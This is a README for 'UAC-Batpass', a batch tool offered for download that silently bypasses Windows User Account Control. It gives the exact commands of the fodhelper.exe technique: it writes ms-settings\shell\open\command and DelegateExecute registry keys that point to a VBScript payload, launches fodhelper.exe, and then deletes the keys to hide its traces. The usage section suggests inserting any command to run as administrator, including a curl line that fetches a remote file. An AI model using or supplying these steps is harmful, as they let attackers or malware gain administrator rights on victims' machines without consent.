 # UAC-Batpass
I would really appriciate if you left a star ❤

![stars](https://img.shields.io/github/stars/AnixDevGit/UAC-Batpass.svg?color=red)

## Usage
* Download the newest release from [here](https://github.com/AnixDevGit/UAC-Batpass/releases)
* Replace `REM Add Your code below` from the code to what you want to be executed as admin
### Examples:
* `start C:\Path\To\Your\File`
* `curl -s -o "filename" "link"`
## How it works

This script checks if the user has admin privileges. If not, it tries to elevate itself to run as an administrator.

1. **Check Admin Access**:  
   The script runs the command:
   `net session >nul 2>&1`
   
   If this command fails (indicating the script isn't running as an admin), it moves on to elevate itself.

3. **Create Helper Files**:  
   If not an admin, the script creates two files:
   - A batch file (`help.bat`) that contains the script's path.
   - A Visual Basic script (`run.vbs`) that runs the batch file silently with elevated privileges.

4. **Set Payload**:  
   The payload (`wscript.exe %temp%\run.vbs`) is set, and the following registry keys are added to trigger the elevation process:

   `reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /ve /t REG_SZ /d "%payload%" /f`
   
   `reg add "HKCU\Software\Classes\ms-settings\shell\open\command" /v "DelegateExecute" /t REG_SZ /d "" /f`

   - The first key (`ms-settings\shell\open\command`) points to the VBScript, telling Windows to run it when the registry command is triggered.
   - The second key (`DelegateExecute`) is necessary to ensure `fodhelper.exe` executes the payload with elevated privileges.

6. **Elevate Process**:  
   The script runs:

  `start fodhelper.exe`

   This triggers the registry command, causing the batch file to execute with admin rights.

6. **Clean Up**:  
   After a short delay, the script deletes the registry entries it created to clean up:

   `reg delete "HKCU\Software\Classes\ms-settings\shell\open\command" /f`
